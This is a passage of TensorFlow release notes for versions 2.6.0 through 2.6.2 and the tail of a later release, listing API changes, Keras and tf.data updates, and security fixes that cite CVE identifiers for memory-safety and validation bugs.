        * `tf.compat.v1.get_seed` if the global random seed has not yet been set (via `tf.random.set_seed`). Throws `RuntimeError` from Python or `InvalidArgument` from C++

## Security

*   Fixes a code injection issue in `saved_model_cli` ([CVE-2021-41228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41228))
*   Fixes a vulnerability due to use of uninitialized value in Tensorflow ([CVE-2021-41225](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41225))
*   Fixes a heap OOB in `FusedBatchNorm` kernels ([CVE-2021-41223](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41223))
*   Fixes an arbitrary memory read in `ImmutableConst` ([CVE-2021-41227](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41227))
*   Fixes a heap OOB in `SparseBinCount` ([CVE-2021-41226](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41226))
*   Fixes a heap OOB in `SparseFillEmptyRows` ([CVE-2021-41224](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41224))
*   Fixes a segfault due to negative splits in `SplitV` ([CVE-2021-41222](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41222))
*   Fixes segfaults and vulnerabilities caused by accesses to invalid memory during shape inference in `Cudnn*` ops ([CVE-2021-41221](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41221))
*   Fixes a null pointer exception when `Exit` node is not preceded by `Enter` op ([CVE-2021-41217](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41217))
*   Fixes an integer division by 0 in `tf.raw_ops.AllToAll` ([CVE-2021-41218](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41218))
*   Fixes a use after free and a memory leak in `CollectiveReduceV2` ([CVE-2021-41220](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41220))
*   Fixes an undefined behavior via `nullptr` reference binding in sparse matrix multiplication ([CVE-2021-41219](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41219))
*   Fixes a heap buffer overflow in `Transpose` ([CVE-2021-41216](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41216))
*   Prevents deadlocks arising from mutually recursive `tf.function` objects ([CVE-2021-41213](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41213))
*   Fixes a null pointer exception in `DeserializeSparse` ([CVE-2021-41215](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41215))
*   Fixes an undefined behavior arising from reference binding to `nullptr` in `tf.ragged.cross` ([CVE-2021-41214](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41214))
*   Fixes a heap OOB read in `tf.ragged.cross` ([CVE-2021-41212](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41212))
*   Fixes a heap OOB in shape inference for `QuantizeV2` ([CVE-2021-41211](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41211))
*   Fixes a heap OOB read in all `tf.raw_ops.QuantizeAndDequantizeV*` ops ([CVE-2021-41205](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41205))
*   Fixes an FPE in `ParallelConcat` ([CVE-2021-41207](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41207))
*   Fixes FPE issues in convolutions with zero size filters ([CVE-2021-41209](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41209))
*   Fixes a heap OOB read in `tf.raw_ops.SparseCountSparseOutput` ([CVE-2021-41210](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41210))
*   Fixes vulnerabilities caused by incomplete validation in boosted trees code ([CVE-2021-41208](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41208))
*   Fixes vulnerabilities caused by incomplete validation of shapes in multiple TF ops ([CVE-2021-41206](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41206))
*   Fixes a segfault produced while copying constant resource tensor ([CVE-2021-41204](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41204))
*   Fixes a vulnerability caused by unitialized access in `EinsumHelper::ParseEquation` ([CVE-2021-41201](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41201))
*   Fixes several vulnerabilities and segfaults caused by missing validation during checkpoint loading ([CVE-2021-41203](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41203))
*   Fixes an overflow producing a crash in `tf.range` ([CVE-2021-41202](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41202))
*   Fixes an overflow producing a crash in `tf.image.resize` when size is large ([CVE-2021-41199](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41199))
*   Fixes an overflow producing a crash in `tf.tile` when tiling tensor is large ([CVE-2021-41198](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41198))
*   Fixes a vulnerability produced due to incomplete validation in `tf.summary.create_file_writer` ([CVE-2021-41200](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41200))
*   Fixes multiple crashes due to overflow and `CHECK`-fail in ops with large tensor shapes ([CVE-2021-41197](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41197))
*   Fixes a crash in `max_pool3d` when size argument is 0 or negative ([CVE-2021-41196](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41196))
*   Fixes a crash in `tf.math.segment_*` operations ([CVE-2021-41195](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41195))
*   Updates `curl` to `7.78.0` to handle
    [CVE-2021-22922](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22922),
    [CVE-2021-22923](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22923),
    [CVE-2021-22924](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22924),
    [CVE-2021-22925](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22925),
    and
    [CVE-2021-22926](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22926).

## Thanks to our Contributors

This release contains contributions from many people at Google, as well as:

8bitmp3, Abhilash Majumder, abhilash1910, AdeshChoudhar, Adrian Garcia Badaracco, Adrian Ratiu, ag.ramesh, Aleksandr Nikolaev, Alexander Bosch, Alexander Grund, Annie Tallund, Anush Elangovan, Artem Sokolovskii, azazhu, Balint Cristian, Bas Aarts, Ben Barsdell, bhack, cfRod, Cheney-Wang, Cheng Ren, Christopher Bate, collin, Danila Bespalov, David Datascientist, Deven Desai, Duncan Riach, Ehsan Kia, Ellie, Fan Du, fo40225, Frederic Bastien, fsx950223, Gauri1 Deshpande, geetachavan1, Guillaume Klein, guozhong.zhuang, helen, Håkon Sandsmark, japm48, jgehw, Jinzhe Zeng, Jonathan Dekhtiar, Kai Zhu, Kaixi Hou, Kanvi Khanna, Koan-Sin Tan, Koki Ibukuro, Kulin Seth, KumaTea, Kun-Lu, Lemo, lipracer, liuyuanqiang, Mahmoud Abuzaina, Marius Brehler, Maxiwell S. Garcia, mdfaijul, metarutaiga, Michal Szutenberg, nammbash, Neil Girdhar, Nishidha Panpaliya, Nyadla-Sys, Patrice Vignola, Peter Kasting, Philipp Hack, PINTO0309, Prateek Gupta, puneeshkhanna, Rahul Butani, Rajeshwar Reddy T, Reza Rahimi, RinozaJiffry, rmothukuru, Rohit Santhanam, Saduf2019, Samuel Marks, sclarkson, Sergii Khomenko, Sheng, Yang, Sidong-Wei, slowy07, Srinivasan Narayanamoorthy, Srishti Srivastava, stanley, Stella Alice Schlotter, Steven I Reeves, stevenireeves, svobora, Takayoshi Koizumi, Tamas Bela Feher, Thibaut Goetghebuer-Planchon, Trent Lo, Twice, Varghese, Jojimon, Vishnuvardhan Janapati, Wang Yanzhang, Wang,Quintin, William Muir, William Raveane, Yasir Modak, Yasuhiro Matsumoto, Yi Li, Yong Tang, zhaozheng09, Zhoulong Jiang, zzpmiracle


# Release 2.6.2

Fixes an issue where `keras`, `tensorflow_estimator` and `tensorboard` were
  missing proper upper bounds and resulted in broken installs after TF 2.7 release

# Release 2.6.1

This release introduces several vulnerability fixes:

*   Fixes a code injection issue in `saved_model_cli`
    ([CVE-2021-41228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41228))
*   Fixes a vulnerability due to use of uninitialized value in Tensorflow
    ([CVE-2021-41225](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41225))
*   Fixes a heap OOB in `FusedBatchNorm` kernels
    ([CVE-2021-41223](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41223))
*   Fixes an arbitrary memory read in `ImmutableConst`
    ([CVE-2021-41227](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41227))
*   Fixes a heap OOB in `SparseBinCount`
    ([CVE-2021-41226](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41226))
*   Fixes a heap OOB in `SparseFillEmptyRows`
    ([CVE-2021-41224](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41224))
*   Fixes a segfault due to negative splits in `SplitV`
    ([CVE-2021-41222](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41222))
*   Fixes segfaults and vulnerabilities caused by accesses to invalid memory
    during shape inference in `Cudnn*` ops
    ([CVE-2021-41221](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41221))
*   Fixes a null pointer exception when `Exit` node is not preceded by
    `Enter` op ([CVE-2021-41217](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41217))
*   Fixes an integer division by 0 in `tf.raw_ops.AllToAll`
    ([CVE-2021-41218](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41218))
*   Fixes a use after free and a memory leak in `CollectiveReduceV2`
    ([CVE-2021-41220](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41220))
*   Fixes an undefined behavior via `nullptr` reference binding in sparse matrix
    multiplication
    ([CVE-2021-41219](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41219))
*   Fixes a heap buffer overflow in `Transpose`
    ([CVE-2021-41216](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41216))
*   Prevents deadlocks arising from mutually recursive `tf.function` objects
    ([CVE-2021-41213](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41213))
*   Fixes a null pointer exception in `DeserializeSparse`
    ([CVE-2021-41215](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41215))
*   Fixes an undefined behavior arising from reference binding to `nullptr` in
    `tf.ragged.cross` ([CVE-2021-41214](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41214))
*   Fixes a heap OOB read in `tf.ragged.cross`
    ([CVE-2021-41212](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41212))
*   Fixes a heap OOB in shape inference for `QuantizeV2`
    ([CVE-2021-41211](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41211))
*   Fixes a heap OOB read in all `tf.raw_ops.QuantizeAndDequantizeV*`
    ops ([CVE-2021-41205](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41205))
*   Fixes an FPE in `ParallelConcat`
    ([CVE-2021-41207](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41207))
*   Fixes FPE issues in convolutions with zero size filters
    ([CVE-2021-41209](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41209))
*   Fixes a heap OOB read in `tf.raw_ops.SparseCountSparseOutput`
    ([CVE-2021-41210](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41210))
*   Fixes vulnerabilities caused by incomplete validation in boosted trees code
    ([CVE-2021-41208](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41208))
*   Fixes vulnerabilities caused by incomplete validation of shapes in multiple
    TF ops ([CVE-2021-41206](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41206))
*   Fixes a segfault produced while copying constant resource tensor
    ([CVE-2021-41204](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41204))
*   Fixes a vulnerability caused by unitialized access in
    `EinsumHelper::ParseEquation`
    ([CVE-2021-41201](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41201))
*   Fixes several vulnerabilities and segfaults caused by missing validation
    during checkpoint loading
    ([CVE-2021-41203](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41203))
*   Fixes an overflow producing a crash in `tf.range`
    ([CVE-2021-41202](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41202))
*   Fixes an overflow producing a crash in `tf.image.resize` when size is large
    ([CVE-2021-41199](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41199))
*   Fixes an overflow producing a crash in `tf.tile` when tiling tensor is large
    ([CVE-2021-41198](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41198))
*   Fixes a vulnerability produced due to incomplete validation in
    `tf.summary.create_file_writer`
    ([CVE-2021-41200](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41200))
*   Fixes multiple crashes due to overflow and `CHECK`-fail in ops with large
    tensor shapes ([CVE-2021-41197](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41197))
*   Fixes a crash in `max_pool3d` when size argument is 0 or negative
    ([CVE-2021-41196](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41196))
*   Fixes a crash in `tf.math.segment_*` operations
    ([CVE-2021-41195](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41195))
*   Updates `curl` to `7.78.0` to handle
    [CVE-2021-22922](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22922),
    [CVE-2021-22923](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22923),
    [CVE-2021-22924](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22924),
    [CVE-2021-22925](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22925),
    and
    [CVE-2021-22926](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22926).
 
# Release 2.6.0

## Breaking Changes

*   `tf.train.experimental.enable_mixed_precision_graph_rewrite` is removed, as
    the API only works in graph mode and is not customizable. The function is
    still accessible under
    `tf.compat.v1.mixed_precision.enable_mixed_precision_graph_rewrite`, but it
    is recommended to use the
    [Keras mixed precision API](https://www.tensorflow.org/guide/mixed_precision)
    instead.

*   `tf.lite`:

    *   Remove `experimental.nn.dynamic_rnn`, `experimental.nn.TfLiteRNNCell`
        and `experimental.nn.TfLiteLSTMCell` since they're no longer supported.
        It's recommended to just use
        [keras lstm](https://www.tensorflow.org/api_docs/python/tf/keras/layers/LSTM)
        instead.

*   `tf.keras`:

    *   Keras been split into a separate PIP package (`keras`), and its code has
        been moved to the GitHub
        repository[keras-team/keras](http://github.com/keras-team/keras). The
        API endpoints for `tf.keras` stay unchanged, but are now backed by the
        `keras` PIP package. The existing code in tensorflow/python/keras is a
        staled copy and will be removed in future release (2.7). Please remove
        any imports to `tensorflow.python.keras` and replace them with public
        tf.keras API instead.
    *   The methods `Model.to_yaml()` and `keras.models.model_from_yaml` have
        been replaced to raise a `RuntimeError` as they can be abused to cause
        arbitrary code execution. It is recommended to use JSON serialization
        instead of YAML, or, a better alternative, serialize to H5.

## Known Caveats

*   TF Core:
    *   A longstanding bug in `tf.while_loop`, which caused it to execute
        sequentially, even when `parallel_iterations>1`, has now been fixed.
        However, the increased parallelism may result in increased memory use.
        Users who experience unwanted regressions should reset their
        `while_loop`'s `parallel_iterations` value to 1, which is consistent
        with prior behavior.

## Major Features and Improvements

*   `tf.keras`:

    *   Keras has been split into a separate PIP package (`keras`), and its code
        has been moved to the GitHub repository
        [keras-team/keras](http://github.com/keras-team/keras). The API
        endpoints for `tf.keras` stay unchanged, but are now backed by the
        `keras` PIP package. All Keras-related PRs and issues should now be
        directed to the GitHub repository.
        [keras-team/keras](http://github.com/keras-team/keras).
    *   `tf.keras.utils.experimental.DatasetCreator` now takes an optional
        `tf.distribute.InputOptions` for specific options when used with
        distribution.
    *   `tf.keras.experimental.SidecarEvaluator` is now available for a program
        intended to be run on an evaluator task, which is commonly used to
        supplement a training cluster running with
        `tf.distribute.experimental.ParameterServerStrategy` (see
        `https://www.tensorflow.org/tutorials/distribute/parameter_server_training).
        It can also be used with single-worker training or other strategies. See
        docstring for more info.
    *   Preprocessing layers moved from experimental to core.
        *   Import paths moved from `tf.keras.layers.preprocessing.experimental`
            to `tf.keras.layers`.
    *   Updates to Preprocessing layers API for consistency and clarity:
        *   `StringLookup` and `IntegerLookup` default for `mask_token` changed
            to `None`. This matches the default masking behavior of `Hashing`
            and `Embedding` layers. To keep existing behavior, pass
            `mask_token=""` during layer creation.
        *   Renamed `"binary"` output mode to `"multi_hot"` for
            `CategoryEncoding`, `StringLookup`, `IntegerLookup`, and
            `TextVectorization`. Multi-hot encoding will no longer automatically
            uprank rank 1 inputs, so these layers can now multi-hot encode
            unbatched multi-dimensional samples.
        *   Added a new output mode `"one_hot"` for `CategoryEncoding`,
            `StringLookup`, `IntegerLookup`, which will encode each element in
            an input batch individually, and automatically append a new output
            dimension if necessary. Use this mode on rank 1 inputs for the old
            `"binary"` behavior of one-hot encoding a batch of scalars.
        *   `Normalization` will no longer automatically uprank rank 1 inputs,
            allowing normalization of unbatched multi-dimensional samples.

*   `tf.lite`:

    *   The recommended Android NDK version for building TensorFlow Lite has
        been changed from r18b to r19c.
    *   Supports int64 for mul.
    *   Supports native variable builtin ops - ReadVariable, AssignVariable.
    *   Converter:
        *   Experimental support for variables in TFLite. To enable through
            conversion, users need to set
            `experimental_enable_resource_variables` on tf.lite.TFLiteConverter
            to True. Note: mutable variables is only available using
            `from_saved_model` in this release, support for other methods is
            coming soon.
        *   Old Converter (TOCO) is getting removed from next release. It's been
            deprecated for few releases already.

*   `tf.saved_model`:

    *   SavedModels can now save custom gradients. Use the option
        `tf.saved_model.SaveOption(experimental_custom_gradients=True)` to
        enable this feature. The documentation in
        [Advanced autodiff](https://www.tensorflow.org/guide/advanced_autodiff#custom_gradients)
        has been updated.
    *   Object metadata has now been deprecated and no longer saved to the
        SavedModel.

*   TF Core:

    *   Added `tf.config.experimental.reset_memory_stats` to reset the tracked
        peak memory returned by `tf.config.experimental.get_memory_info`.

*   `tf.data`:

    *   Added `target_workers` param to `data_service_ops.from_dataset_id` and
        `data_service_ops.distribute`. Users can specify `"AUTO"`, `"ANY"`, or
        `"LOCAL"` (case insensitive). If `"AUTO"`, tf.data service runtime
        decides which workers to read from. If `"ANY"`, TF workers read from any
        tf.data service workers. If `"LOCAL"`, TF workers will only read from
        local in-processs tf.data service workers. `"AUTO"` works well for most
        cases, while users can specify other targets. For example, `"LOCAL"`
        would help avoid RPCs and data copy if every TF worker colocates with a
        tf.data service worker. Currently, `"AUTO"` reads from any tf.data
        service workers to preserve existing behavior. The default value is
        `"AUTO"`.

## Bug Fixes and Other Changes

*   TF Core:
    *   Added `tf.lookup.experimental.MutableHashTable`, which provides a
        generic mutable hash table implementation.
        *   Compared to `tf.lookup.experimental.DenseHashTable` this offers
            lower overall memory usage, and a cleaner API. It does not require
            specifying a `delete_key` and `empty_key` that cannot be inserted
            into the table.
    *   Added support for specifying number of subdivisions in all reduce host
        collective. This parallelizes work on CPU and speeds up the collective
        performance. Default behavior is unchanged.
    *   Add an option `perturb_singular` to `tf.linalg.tridiagonal_solve` that
        allows solving linear systems with a numerically singular tridiagonal
        matrix, e.g. for use in inverse iteration.
    *   Added `tf.linalg.eigh_tridiagonal` that computes the eigenvalues of a
        Hermitian tridiagonal matrix.
    *   `tf.constant` now places its output on the current default device.
    *   SavedModel
        *   Added `tf.saved_model.experimental.TrackableResource`, which allows
            the creation of custom wrapper objects for resource tensors.
        *   Added a SavedModel load option to allow restoring partial
            checkpoints into the SavedModel. See
            [`tf.saved_model.LoadOptions`](https://www.tensorflow.org/api_docs/python/tf/saved_model/LoadOptions)
            for details.
    *   Added a new op `SparseSegmentSumGrad` to match the other sparse segment
        gradient ops and avoid an extra gather operation that was in the
        previous gradient implementation.
    *   Added a new session config setting `internal_fragmentation_fraction`,
        which controls when the BFC Allocator needs to split an oversized chunk
        to satisfy an allocation request.
    *   Added `tf.get_current_name_scope()` which returns the current full name
        scope string that will be prepended to op names.
*   `tf.data`:
    *   Promoting `tf.data.experimental.bucket_by_sequence_length` API to
        `tf.data.Dataset.bucket_by_sequence_length` and deprecating the
        experimental endpoint.
    *   Promoting `tf.data.experimental.get_single_element` API to
        `tf.data.Dataset.get_single_element` and deprecating the experimental
        endpoint.
    *   Promoting `tf.data.experimental.group_by_window` API to
        `tf.data.Dataset.group_by_window` and deprecating the experimental
        endpoint.
    *   Promoting `tf.data.experimental.RandomDataset` API to
        `tf.data.Dataset.random` and deprecating the experimental endpoint.
    *   Promoting `tf.data.experimental.scan` API to `tf.data.Dataset.scan` and
        deprecating the experimental endpoint.
    *   Promoting `tf.data.experimental.snapshot` API to
        `tf.data.Dataset.shapshot` and deprecating the experimental endpoint.
    *   Promoting `tf.data.experimental.take_while` API to
        `tf.data.Dataset.take_while` and deprecating the experimental endpoint.
    *   Promoting `tf.data.experimental.ThreadingOptions` API to
        `tf.data.ThreadingOptions` and deprecating the experimental endpoint.
    *   Promoting `tf.data.experimental.unique` API to `tf.data.Dataset.unique`
        and deprecating the experimental endpoint.
    *   Added `stop_on_empty_dataset` parameter to `sample_from_datasets` and
        `choose_from_datasets`. Setting `stop_on_empty_dataset=True` will stop
        sampling if it encounters an empty dataset. This preserves the sampling
        ratio throughout training. The prior behavior was to continue sampling,
        skipping over exhausted datasets, until all datasets are exhausted. By
        default, the original behavior (`stop_on_empty_dataset=False`) is
        preserved.
    *   Removed previously deprecated tf.data statistics related APIs:
        *   `tf.data.Options.experimental_stats`
        *   `tf.data.experimental.StatsAggregator`
        *   `tf.data.experimental.StatsOptions.*`
        *   `tf.data.experimental.bytes_produced_stats`
        *   `tf.data.experimental.latency_stats`
    *   Removed the following experimental tf.data optimization APIs:
        *   `tf.data.experimental.MapVectorizationOptions.*`
        *   `tf.data.experimental.OptimizationOptions.filter_with_random_uniform_fusion`
        *   `tf.data.experimental.OptimizationOptions.hoist_random_uniform`
        *   `tf.data.experimental.OptimizationOptions.map_vectorization` *
            `tf.data.experimental.OptimizationOptions.reorder_data_discarding_ops`
*   `tf.keras`:
    *   Fix usage of `__getitem__` slicing in Keras Functional APIs when the
        inputs are `RaggedTensor` objects.
    *   Add `keepdims` argument to all `GlobalPooling` layers.
    *   Add `include_preprocessing` argument to `MobileNetV3` architectures to
        control the inclusion of `Rescaling` layer in the model.
    *   Add optional argument (`force`) to `make_(train|test|predict)_funtion`
        methods to skip the cached function and generate a new one. This is
        useful to regenerate in a single call the compiled training function
        when any `.trainable` attribute of any model's layer has changed.
    *   Models now have a `save_spec` property which contains the `TensorSpec`
        specs for calling the model. This spec is automatically saved when the
        model is called for the first time.
*   `tf.linalg`:
    *   Add `CompositeTensor` as a base class to `LinearOperator`.
*   `tf.lite`:
    *   Fix mean op reference quantization rounding issue.
    *   Added `framework_stable` BUILD target, which links in only the
        non-experimental TF Lite APIs.
    *   Remove deprecated Java `Interpreter` methods:
        *   `modifyGraphWithDelegate` - Use `Interpreter.Options.addDelegate`
        *   `setNumThreads` - Use `Interpreter.Options.setNumThreads`
    *   Add Conv3DTranspose as a builtin op.
*   `tf.summary`:
    *   Fix `tf.summary.should_record_summaries()` so it correctly reflects when
        summaries will be written, even when `tf.summary.record_if()` is not n
        effect, by returning True tensor if default writer is present.
*   Grappler:
    *   Disable default Grappler optimization timeout to make the optimization
        pipeline deterministic. This may lead to increased model loading time,
        because time spent in graph optimizations is now unbounded (was 20
        minutes).
*   Deterministic Op Functionality (enabled by setting `TF_DETERMINISTIC_OPS` to
    `"true"` or `"1"`):
    *   Add a deterministic GPU implementation of
        `tf.nn.softmax_cross_entropy_with_logits`. See PR
        [49178](https://github.com/tensorflow/tensorflow/pull/49178).
    *   Add a deterministic CPU implementation of `tf.image.crop_and_resize`.
        See PR [48905](https://github.com/tensorflow/tensorflow/pull/48905).
    *   Add determinism-unimplemented exception-throwing to the following ops.
        When op-determinism is expected, an attempt to use the specified paths
        through the following ops on a GPU will cause
        `tf.errors.UnimplementedError` (with an understandable message) to be
        thrown.
        *   `tf.nn.sparse_softmax_cross_entropy_with_logits` forwards and/or
            backwards. See PR
            [47925](https://github.com/tensorflow/tensorflow/pull/47925).
        *   `tf.image.crop_and_resize` gradient w.r.t. either `image` or
            `boxes`. See PR
            [48905](https://github.com/tensorflow/tensorflow/pull/48905).
        *   `tf.sparse.sparse_dense_matmul` forwards. See PR
            [50355](https://github.com/tensorflow/tensorflow/pull/50355).

## Security

*   Fixes a heap out of bounds access in sparse reduction operations
    ([CVE-2021-37635](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37635))
*   Fixes a floating point exception in `SparseDenseCwiseDiv`
    ([CVE-2021-37636](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37636))
*   Fixes a null pointer dereference in `CompressElement`
    ([CVE-2021-37637](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37637))
*   Fixes a null pointer dereference in `RaggedTensorToTensor`
    ([CVE-2021-37638](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37638))
*   Fixes a null pointer dereference and a heap OOB read arising from operations
    restoring tensors
    ([CVE-2021-37639](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37639))
*   Fixes an integer division by 0 in sparse reshaping
    ([CVE-2021-37640](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37640))
*   Fixes a division by 0 in `ResourceScatterDiv`
    ([CVE-2021-37642](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37642))
*   Fixes a heap OOB in `RaggedGather`
    ([CVE-2021-37641](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37641))
*   Fixes a `std::abort` raised from `TensorListReserve`
    ([CVE-2021-37644](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37644))
*   Fixes a null pointer dereference in `MatrixDiagPartOp`
    ([CVE-2021-37643](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37643))
*   Fixes an integer overflow due to conversion to unsigned
    ([CVE-2021-37645](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37645))
*   Fixes a bad allocation error in `StringNGrams` caused by integer conversion
    ([CVE-2021-37646](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37646))
*   Fixes a null pointer dereference in `SparseTensorSliceDataset`
    ([CVE-2021-37647](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37647))
*   Fixes an incorrect validation of `SaveV2` inputs
    ([CVE-2021-37648](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37648))
*   Fixes a null pointer dereference in `UncompressElement`
    ([CVE-2021-37649](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37649))
*   Fixes a segfault and a heap buffer overflow in
    `{Experimental,}DatasetToTFRecord`
    ([CVE-2021-37650](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37650))
*   Fixes a heap buffer overflow in `FractionalAvgPoolGrad`
    ([CVE-2021-37651](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37651))
*   Fixes a use after free in boosted trees creation
    ([CVE-2021-37652](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37652))
*   Fixes a division by 0 in `ResourceGather`
    ([CVE-2021-37653](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37653))
*   Fixes a heap OOB and a `CHECK` fail in `ResourceGather`
    ([CVE-2021-37654](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37654))
*   Fixes a heap OOB in `ResourceScatterUpdate`
    ([CVE-2021-37655](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37655))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    `RaggedTensorToSparse`
    ([CVE-2021-37656](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37656))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    `MatrixDiagV*` ops
    ([CVE-2021-37657](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37657))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    `MatrixSetDiagV*` ops
    ([CVE-2021-37658](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37658))
*   Fixes an undefined behavior arising from reference binding to nullptr and
    heap OOB in binary cwise ops
    ([CVE-2021-37659](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37659))
*   Fixes a division by 0 in inplace operations
    ([CVE-2021-37660](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37660))
*   Fixes a crash caused by integer conversion to unsigned
    ([CVE-2021-37661](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37661))
*   Fixes an undefined behavior arising from reference binding to nullptr in
    boosted trees
    ([CVE-2021-37662](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37662))
*   Fixes a heap OOB in boosted trees
    ([CVE-2021-37664](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-37664))
*   Fixes vulnerabilities arising from incomplete validation in `QuantizeV2`
